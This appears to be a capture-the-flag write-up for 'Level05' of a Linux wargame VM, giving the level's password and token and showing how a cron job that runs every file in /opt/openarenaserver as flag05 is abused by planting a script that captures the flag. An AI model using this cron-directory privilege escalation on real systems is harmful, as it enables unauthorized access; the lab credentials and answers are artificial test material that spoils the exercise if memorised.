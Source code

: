 # Level05 - Flag05

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level05 | `ne2searoevaevoem4ov4ar8ap` |
| flag05  |                             |
| token   | `viuaaale9huek52boumoomioc` |

## Steps to resolve on VM

1. Connect to `level05` user and notice there is a new mail

```bash
su level05
# Enter the token
> You have new mail.
```

2. Check the mail

```bash
cat /var/mail/level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
# We can notice that we have a cron job schedule
# Every 2 minutes, it will execute a script at '/usr/sbin/openarenaserver' with flag05 user
```

3. Check the cron job

```bash
# By listing this script we notice the '+' permission, which means 'extended permissions"
ls -l /usr/sbin/openarenaserver
> -rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

# Indeed, we can check that it has the same permissions from flag05 user
getfacl /usr/sbin/openarenaserver
> getfacl: Removing leading '/' from absolute path names
> # file: usr/sbin/openarenaserver
> # owner: flag05
> # group: flag05
> user::rwx
> user:level05:r--
> group::r-x
> mask::r-x
> other::---

cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>        (ulimit -t 5; bash -x "$i")
>        rm -f "$i"
> done
# This script is going to execute everyscripts inside /opt/openarenaserver/
# And then delete it

```

4. Prepare the script to be launched with crontab and get the flag05

```bash
# First add the cron job into crontab
(crontab -l ; cat /var/mail/level05)| crontab -

# Then create the script in the cron job scripts location
echo "getflag > /tmp/flag05" > /opt/openarenaserver/script
chmod +x /opt/openarenaserver/script

# Then display the output after 2 minutes because of the cron job schedule
sleep 2m && cat /tmp/flag05
> [1]-  Done                    sleep 2m
> Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## Sources

### SHELL

- [Cron editor](https://crontab.guru/#*/2_*_*_*_*)
- [Crontab intro](https://www.linuxtricks.fr/wiki/cron-et-crontab-le-planificateur-de-taches)
- [Crontab add job](https://stackoverflow.com/questions/8579330/appending-to-crontab-with-a-shell-script-on-ubuntu)
- [ulimit](https://linuxhint.com/linux_ulimit_command/)
- ['+' at the end of permissions](https://serverfault.com/questions/227852/what-does-a-mean-at-the-end-of-the-permissions-from-ls-l)
